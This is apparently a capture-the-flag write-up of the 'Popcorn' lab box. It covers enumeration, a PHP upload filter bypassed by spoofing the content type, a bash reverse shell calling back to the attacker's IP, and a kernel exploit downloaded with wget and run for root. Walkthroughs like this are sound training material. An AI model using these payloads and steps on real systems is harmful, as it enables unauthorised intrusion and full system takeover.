





---
search:
  exclude: true
---
# Popcorn Writeup

## Introduction :

Popcorn is a Medium linux box released back in march 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → nmap -F 10.10.10.6
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 11:27 GMT
      Nmap scan report for 10.10.10.6
      Host is up (0.097s latency).
      Not shown: 98 closed ports
      PORT   STATE SERVICE
      22/tcp open  ssh
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → nmap -sCV 10.10.10.6 -p80,22
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 11:27 GMT
      Nmap scan report for 10.10.10.6
      Host is up (0.10s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
      |_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
      80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
      |_http-server-header: Apache/2.2.12 (Ubuntu)
      |_http-title: Site doesn't have a title (text/html).
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 10.64 seconds
    
      λ root [ 10.10.14.11/23 ] [nihilist/_HTB/Popcorn]
      → echo '10.10.10.6 popcorn.htb' >> /etc/hosts
    
    

## **Part 2 : Getting User Access**

Port 80 is opened, let's dirsearch it
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
    → dirsearch -u http://popcorn.htb -t 50 -e php,html,txt,js  -x 403
    git clone https://github.com/maurosoria/dirsearch.git
    dirsearch -u <****url> -e <****php,txt,html,js> -t 50 -x 500
    
     _|. _ _  _  _  _ _|_    v0.3.9
    (_||| _) (/_(_|| (_| )
    
    Extensions: php, html, txt, js | HTTP method: get | Threads: 50 | Wordlist size: 7126
    
    Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-02-20_11-35-28.log
    
    Target: http://popcorn.htb
    
    [11:35:28] Starting:
    [11:35:47] 200 -  177B  - /index
    [11:35:47] 200 -  177B  - /index.md
    [11:35:56] 200 -   48KB - /test
    [11:35:56] 200 -   48KB - /test/
    [11:35:56] 200 -   48KB - /test.php
    
    Task Completed

Dirsearch didn't give us much results, so let's use a bigger wordlist instead
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → dirsearch -u http://popcorn.htb -t 50 -e php,html,txt,js  -x 403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: php, html, txt, js | HTTP method: get | Threads: 50 | Wordlist size: 220521
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-02-20_11-55-52.log
    
      Target: http://popcorn.htb
    
      [11:55:53] Starting:
      [11:55:54] 200 -  177B  - /
      [11:55:58] 200 -   48KB - /test
      [11:55:58] 200 -  177B  - /index
      [11:56:10] 301 -  312B  - /torrent  ->  http://popcorn.htb/torrent/
      [11:56:37] 301 -  311B  - /rename  ->  http://popcorn.htb/rename/
    

test.php gives off the php information running on the server : 

/torrent reveals a torrent hoster webpage so let's see what exploits are available for us to use on this service :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
    → searchsploit torrent hoster
    -------------------------------- -------------------------------
     Exploit Title                  |  Path
                                    | (/usr/share/exploitdb/)
    -------------------------------- -------------------------------
    Torrent Hoster - Remount Upload | exploits/php/webapps/11746.txt
    -------------------------------- -------------------------------
    Shellcodes: No Result
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
    → locate 11746
    /home/nihilist/Desktop/Tools/hydrus/db/client_files/fb9/b95b541ff079ea281c8f575141a428390189649e6cb9ffc0bd6117467b4f745e.png
    /home/nihilist/Desktop/Tools/hydrus/db/client_files/tb9/b95b541ff079ea281c8f575141a428390189649e6cb9ffc0bd6117467b4f745e.thumbnail
    /usr/share/exploitdb/exploits/php/webapps/11746.txt
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
    → cp /usr/share/exploitdb/exploits/php/webapps/11746.txt .
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
    → cat 11746.txt
    
    

Looking at the results, we seem to be able to gain access to the system through a php upload vulnerability. Moving over to the login page :

Sending the request by clicking Login, we intercept the request with burpsuite, and copy the request in order to give it to sqlmap. 
    
    
    POST /torrent/login.php HTTP/1.1
    Host: 10.10.10.6
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.6/torrent/login.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 29
    DNT: 1
    Connection: close
    Cookie: /torrent/=; PHPSESSID=3ce0b9e28bbb1e6b0458748643502d21
    Upgrade-Insecure-Requests: 1
    
    username=admin&password;=admin
    

saving it as request : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → nano request
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → sqlmap -r request --level 5 --risk 3
              ___
             __H__
       ___ ___[)]_____ ___ ___  {1.4.2#stable}
      |_ -| . [.]     | .'| . |
      |___|_  [']_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 12:12:10 /2020-02-20/
    
      [12:12:10] [INFO] parsing HTTP request from 'request'
      [12:12:11] [WARNING] provided value for parameter '/torrent/' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
      [12:12:11] [INFO] testing connection to the target URL
      [12:12:11] [INFO] checking if the target is protected by some kind of WAF/IPS
      [12:12:12] [INFO] testing if the target URL content is stable
      [12:12:12] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
      how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit]
      [12:12:36] [INFO] testing if POST parameter 'username' is dynamic
      [12:12:37] [WARNING] POST parameter 'username' does not appear to be dynamic
      [12:12:37] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
      [12:12:37] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
      [12:12:37] [INFO] testing for SQL injection on POST parameter 'username'
      it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
      [12:12:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
      [12:12:46] [WARNING] reflective value(s) found and filtering out
      got a 302 redirect to 'http://10.10.10.6/torrent'. Do you want to follow? [Y/n] y
      redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] y
    

As sqlmap takes some time to run, let's head over to the signup page and try to create an account 

heading over to the uploading page we'll submit some random torrent file : 

and we have been able to upload it ! Moving over to /torrent/upload we seem to have access to uploaded images : 

let's change the screenshot to a reverse php png shell :
    
    
      <****?php
    exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.11/1234 0>&1'");
    ?****>
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → nano nihilist.php
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → file nihilist.php
      nihilist.php: PHP script, ASCII text
    
    

as you can see it will be considered as a php script, so that's why we will use burpsuite to intercept our request, and change it before sending it. 

 

Let's see if we can bypass the website filetype checks by changing the aforementionned content type header 

Here we can see that we successfully submitted a PHP file with an image/png request , now let's see if we can browse to it, and catch the incoming reverse shell connection :

 _Terminal 1:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
    → curl -sk http://10.10.10.6/torrent/upload/20bcfc1a2b444bd933eb2d80daa7e2f20d272afe.php
    

` _Terminal 2:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → nc -lvnp 1234
      listening on [any] 1234 ...
      ls
      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.6] 43530
      bash: no job control in this shell
      www-data@popcorn:/var/www/torrent/upload$ ls
      20bcfc1a2b444bd933eb2d80daa7e2f20d272afe.php
      20bcfc1a2b444bd933eb2d80daa7e2f20d272afe.png
      723bc28f9b6f924cca68ccdff96b6190566ca6b4.png
      noss.png
      www-data@popcorn:/var/www/torrent/upload$ whoami
      whoami
      www-data
      www-data@popcorn:/var/www/torrent/upload$ uname -a
      uname -a
      Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
    

And that's it ! we have a reverse shell as www-data 
    
    
      www-data@popcorn:/var/www/torrent/upload$ cd /home
    cd /home
    www-data@popcorn:/home$ ls
    ls
    george
    www-data@popcorn:/home$ cd george
    cd george
    www-data@popcorn:/home/george$ cat user.txt
    cat user.txt
    5eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Once we are in the /home/george directory, we first list what files are available for us to use so that we can somehow privesc :
    
    
      www-data@popcorn:/tmp$ uname -a
      uname -a
      Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
    

the uname -a command reveals us an outdated kernel version, a quick searchsploit command reveals us that we could use a privilege escalation exploit written in c : 

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → searchsploit kernel 2.6.37
      ----------------------------------------------------------------------------- ----------------------------------------
       Exploit Title                                                               |  Path
                                                                                   | (/usr/share/exploitdb/)
      ----------------------------------------------------------------------------- ----------------------------------------
      Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full-Nelson.c' Local Privileg | exploits/linux/local/15704.c
      Linux Kernel 2.6.37 - 'setup_arg_pages()' Denial of Service                  | exploits/linux/dos/15619.c
      Linux Kernel 2.6.37 - Local Kernel Denial of Service (1)                     | exploits/linux/dos/16263.c
      Linux Kernel 2.6.37 - Unix Sockets Local Denial of Service                   | exploits/linux/dos/15622.c
      Linux Kernel 2.6.37-rc1 - 'serial_multiport_struct' Local Information Leak   | exploits/linux/local/18080.c
      Linux Kernel < 2.6.37-rc2 - 'ACPI custom_method' Local Privilege Escalation  | exploits/linux/local/15774.c
      Linux Kernel < 2.6.37-rc2 - 'TCP_MAXSEG' Kernel Panic (Denial of Service) (2 | exploits/linux/dos/16952.c
      ----------------------------------------------------------------------------- ----------------------------------------
      Shellcodes: No Result
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → locate 15704.c
      /usr/share/exploitdb/exploits/linux/local/15704.c
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
      → cp /usr/share/exploitdb/exploits/linux/local/15704.c .
    
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Popcorn]
    → python -m SimpleHTTPServer 7070
    Serving HTTP on 0.0.0.0 port 7070 ...
    

` _Terminal 2:_
    
    
     
      www-data@popcorn:/home/george$ which wget
    which wget
    /usr/bin/wget
    www-data@popcorn:/home/george$ which curl
    which curl
    

Seems like we have both wget and curl to download our exploit from, let's use wget : 
    
    
      www-data@popcorn:/tmp$ wget http://10.10.14.11:7070/15704.c
      wget http://10.10.14.11:7070/15704.c
      --2020-02-20 15:16:59--  http://10.10.14.11:7070/15704.c
      Connecting to 10.10.14.11:7070... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 9487 (9.3K) [text/plain]
      Saving to: `15704.c'
    
      100%[======================================>] 9,487       --.-K/s   in 0.1s
    
      2020-02-20 15:17:00 (90.6 KB/s) - `15704.c' saved [9487/9487]
    

once we have downloaded our .c exploit, we need to compile it using gcc, add the execution right using chmod +x and executing the executable produced using ./ 
    
    
      www-data@popcorn:/tmp$ gcc 15704.c -o nihilist.privesc
      gcc 15704.c -o nihilist.privesc
      www-data@popcorn:/tmp$ chmod +x nihilist.privesc
      chmod +x nihilist.privesc
      www-data@popcorn:/tmp$ ./nihilist.privesc
      ./nihilist.privesc
      [*] Resolving kernel addresses...
       [+] Resolved econet_ioctl to 0xf83d4280
       [+] Resolved econet_ops to 0xf83d4360
       [+] Resolved commit_creds to 0xc01645d0
       [+] Resolved prepare_kernel_cred to 0xc01647d0
      [*] Calculating target...
      [*] Triggering payload...
      [*] Got root!
      # cat /root/root.txt
      cat /root/root.txt
      f1XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

